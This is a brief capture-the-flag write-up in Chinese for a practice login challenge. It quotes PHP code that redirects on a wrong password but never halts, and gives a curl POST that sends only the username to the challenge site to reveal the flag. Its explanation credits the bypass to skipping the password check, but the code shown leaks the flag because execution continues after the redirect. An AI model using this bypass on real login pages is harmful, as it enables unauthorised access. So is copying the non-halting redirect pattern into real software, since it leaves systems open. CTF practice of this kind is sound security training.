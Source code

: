 admin 4
===

```php
if($_POST['name'] === 'admin') {
    if($_POST['password'] !== $password) {
        // show failed message if you input wrong password
        header('Location: ./?failed=1');
    }
}

if($_POST['name'] === 'admin'): /* login success! */ ?>
    <div class="alert alert-success"><code><?=$flag?></code></div>
```

本頁面有判斷密碼機制，但如上方關鍵代碼所示，使用 POST 方法送出 name 與 password 兩個參數，但不送 password 即可繞過上方的 `if($_POST['password'] !== $password)` 判斷。

```bash
curl -d "name=admin" https://hackme.inndy.tw/login4/
```

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)